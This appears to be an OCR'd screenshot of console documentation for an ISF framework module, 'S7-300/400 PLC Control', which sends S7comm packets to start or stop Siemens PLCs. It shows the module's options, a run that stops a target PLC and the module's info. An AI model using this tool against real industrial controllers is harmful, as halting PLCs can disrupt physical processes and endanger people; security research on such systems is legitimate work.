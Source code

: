```

       Name       Current settings     Description

       ----       ----------------     -----------

       target                          Target address e.g. 192.168.1.1

       port       102                  Target Port

    

    

    Module options:

    

       Name        Current settings     Description

       ----        ----------------     -----------

       slot        2                    CPU slot number.

       command     1                    Command 0:start plc, 1:stop plc.

    

    

    isf (S7-300/400 PLC Control) >
    
    
## Run module

    isf (S7-300/400 PLC Control) > run

    [*] Running module...

    [+] Target is alive

    [*] Sending packet to target

    [*] Stop plc

    isf (S7-300/400 PLC Control) >

    

## Display information about exploit

    isf (S7-300/400 PLC Control) > show info

    

    Name:

    S7-300/400 PLC Control

    

    Description:

    Use S7comm command to start/stop plc.
```